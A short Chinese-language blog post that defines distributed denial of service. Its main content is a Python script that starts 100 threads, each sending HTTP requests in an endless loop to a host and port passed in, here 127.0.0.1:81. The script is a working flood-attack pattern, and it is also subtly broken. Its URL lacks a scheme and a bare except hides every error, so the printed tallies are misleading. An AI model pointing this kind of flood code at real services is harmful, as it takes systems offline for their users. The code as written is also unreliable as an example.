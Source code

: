 ```yaml
---
title: dos（python极简版）
date: 2021-09-19 13:44:17
tags: [Python]
categories: [后端,Python]
---
```


## DDos介绍

### 定义

分布式拒绝服务（Distributed Denial of Service）攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动dos攻击，从而成倍地提高拒绝服务攻击的威力。通常该攻击方式利用目标系统网络服务功能缺陷或者直接消耗其系统资源，使得该目标系统无法提供正常的服务。


## 使用python模拟点对点的攻击

### 思路：

利用多线程的无限循环发起请求，统计结果以及抛出502错误

1. 创建类继承多线程
2. 使用init封装url
3. run方法传入url，以及错误处理
4. 统计数据和主方法启动

### 测试代码：

```python
# -*- coding = utf-8 -*-
# @Time : 2021/9/19 13:45
# @Author : FSAN
# @File : sendHttpRequest.py
# @Software : PyCharm


from threading import Thread
from requests import get

status = {"200": 0, "404": 0, "500": 0}


class sendHtpp(Thread):
    def __init__(self, HOST, PORT):
        global status
        self.url = f"{HOST}:{PORT}"
        super().__init__()

    def run(self) -> None:
        while True:
            sendHtpp.START(self.url)

    def START(url):
        try:
            resp = get(url).status_code
            status[str(resp)] += 1
            print(status)
        except:
            pass


if __name__ == '__main__':
    for i in range(100):
        s = sendHtpp("127.0.0.1", 81)
        s.start()
    s.join()
```

